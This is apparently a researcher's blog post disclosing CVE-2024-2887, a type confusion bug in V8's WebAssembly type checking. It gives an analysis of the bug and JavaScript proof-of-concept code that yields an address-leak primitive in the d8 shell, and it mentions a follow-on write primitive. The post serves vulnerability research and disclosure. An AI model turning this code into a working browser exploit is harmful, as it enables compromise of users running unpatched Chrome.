 author: [@buptsb](https://x.com/buptsb)
2024-04-08 16:14:00
https://x.com/buptsb/status/1777248693273731308

_This PoC is the FIRST public disclosure for this vulnerability._

# Info
https://chromereleases.googleblog.com/2024/03/stable-channel-update-for-desktop_26.html
[N/A][330588502] High CVE-2024-2887: Type Confusion in WebAssembly. Reported by Manfred Paul, via Pwn2Own 2024 on 2024-03-21

https://chromium-review.googlesource.com/q/bug:330575498
https://chromium-review.googlesource.com/c/v8/v8/+/5378419

# Analysis
Enum type `HeapType::Representation` start from `kV8MaxWasmTypes`:

Heaptypes below `kV8MaxWasmTypes` is “user-defined” types(for GC extension?)

We could create a StructType, which index is above `kV8MaxWasmTypes`, same with `kExtern`,
so this struct type could be confused with a js value whose type is ExternRef, 
and the wasm decoder type checker would not complain.
![image](https://github.com/buptsb/blog/assets/666724/799d5197-299e-470a-ab63-fc7794e4b02c)

# PoC
Change `kV8MaxWasmTypes` from 1M->1K for debugging speedup...
![image](https://github.com/buptsb/blog/assets/666724/ff409ad8-3992-42cf-a755-c6192571b51a)

```js
const prefix = "...";
d8.file.execute(`${prefix}/test/mjsunit/wasm/wasm-module-builder.js`);

const builder = new WasmModuleBuilder();

// fill up user defined types in a rec group, so that the total ##type groups## is below kV8MaxWasmTypes
builder.startRecGroup();
for (let i = 0; i < 1000; i++) {
  builder.addType(kSig_i_iii);
}
builder.endRecGroup();

for (let i = 0; i <= 5; i++) {
  builder.addStruct([makeField(kWasmI32, true)]);
}
// tStruct is 1006, same with kWasmExternRef
let tStruct = builder.addStruct([
  makeField(kWasmI32, true),
]);

// create function type has kWasmExternRef as input, ret addr
let tFunc = builder.addType(makeSig([kWasmExternRef], [kWasmI32]));

builder.addFunction('main', tFunc).addBody([
  kExprLocalGet, 0,
  // use `wasmSignedLeb` to wrap a value large than 0xFF
  kGCPrefix, kExprStructGet, ...wasmSignedLeb(tStruct), 0,
]).exportFunc();

const instance = builder.instantiate();

let sb = {foo:42};
%DebugPrint(sb);
%DebugPrint(instance.exports.main(sb));

%SystemBreak();
```

Now we have `addrof`, we could trigger a write using struct set.

![image](https://github.com/buptsb/blog/assets/666724/91ae221d-833e-45a8-b5c6-1e973f58564b)

<!-- ##{"timestamp":1712564040}## -->

